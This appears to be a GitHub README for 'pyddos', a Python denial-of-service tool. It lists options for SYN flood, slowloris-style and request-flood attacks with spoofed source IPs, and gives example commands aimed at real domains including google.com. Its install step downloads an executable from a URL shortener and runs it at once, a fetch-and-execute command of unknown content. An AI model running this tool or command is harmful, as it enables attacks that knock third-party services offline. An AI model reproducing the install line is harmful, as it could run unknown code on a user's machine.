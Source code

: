 # Python3 ddos script

## install:

### wget is.gd/ddosnow && chmod +x ddosnow && ./ddosnow

## usage: ./pyddos -t [target] -p [port] -t [number threads] 
optional arguments: -h, --help show this help message and 
exit -v, --version show program's version number and exit 
options: -d <ip|domain> Specify your target such an ip or 
domain name -t <float> Set timeout for socket -T <int> 
Set threads number for connection (default = 1000) -p 
<int> Specify port target (default = 80) |Only required 
with pyslow attack| -s <int> Set sleep time for 
reconnection -i <ip address> Specify spoofed ip unless 
use fake ip -Request Enable request target -Synflood 
Enable synflood attack -Pyslow Enable pyslow attack 
--fakeip Option to create fake ip if not specify spoofed 
ip Example:
     ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
    ./pyddos -d www.domain.com -s 100 -Request
    ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0
